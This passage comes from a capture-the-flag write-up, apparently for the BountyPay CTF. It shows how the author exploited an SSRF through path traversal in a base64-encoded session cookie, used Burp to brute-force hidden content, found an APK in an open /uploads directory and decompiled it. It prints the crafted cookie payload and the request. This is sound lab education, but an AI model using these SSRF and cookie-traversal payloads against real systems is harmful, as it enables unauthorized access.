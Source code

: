 There isn't much we can do with it since SSRF only allows us to do `GET` requests and not `POST`. What else? As usual, content discovery.  This one is a little bit more tricky to setup since the payload is base64-encoded, but it can still be easily done in Burp. We need to set the whole session cookie value as the target,  and add 3 `Payload Processing` rules:
1. "Add prefix" with value `{"account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/`
2. "Add suffix" with value `#","hash":"de235bffd23df6995ad4e0930baac1a2"}`      (the part between them will be our actual payload for content discovery)
3.  "Encode" -> "Base64-encode"
{F861592}

I've used a fairly simple wordlist and got a hit pretty quickly - there is an `/uploads` endpoint with Directory Listing enabled. In hindsight, that could have been guessed pretty easily even without bruteforcing.

```http
GET /statements?month=05&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
Cookie: token=eyJhY2NvdW50X2lkIjoiLi4vLi4vcmVkaXJlY3Q/dXJsPWh0dHBzOi8vc29mdHdhcmUuYm91bnR5cGF5LmgxY3RmLmNvbS91cGxvYWRzLyMiLCJoYXNoIjoiZGUyMzViZmZkMjNkZjY5OTVhZDRlMDkzMGJhYWMxYTIifQ==
```
HTML code extracted from JSON response is:
```html
<html>
<head><title>Index of /uploads/</title></head>
<body bgcolor="white">
<h1>Index of /uploads/</h1><hr><pre><a href="../">../</a>
<a href="/uploads/BountyPay.apk">BountyPay.apk</a>                                        20-Apr-2020 11:26              4043701
</pre><hr></body>
</html>
```

Not sure why, but I then tried to access APK via SSRF. It didn't work - which is consistent with the behaviour I observed for this SSRF where responses with certain content-types  were not forwarded back to us. I then tried to access the APK [directly](http://software.bountypay.h1ctf.com/uploads/BountyPay.apk), and sure enough it worked.

## Android

While one could start by grepping strings from an APK, I usually go straight to decompiling the Java code. For this I use [dex2jar](https://github.com/pxb1988/dex2jar)  with a command like:
```bash
$ ./d2j-dex2jar.sh -f -o ./../h1-ctf/jar/BountyPay.jar ./../h1-ctf/BountyPay.apk
```
It produces a JAR file which you can then open in [JD-GUI](http://java-decompiler.github.io/). While you can browse the source code directly in JD-GUI, I much prefer JetBrains IDEs. You can export all decompiled code via "Save all sources" menu option, unzip the archive and use in in e.g. [IntelliJ IDEA](https://www.jetbrains.com/idea/).

I then read all relevant parts of the source code (there isn't much, if you ignore all the standard android stuff) and it was fairly clear that the app interacts with a Firebase database and attempts to get your through 3 stages, at the end of which you should have some values for Header, Token and Host from that database.
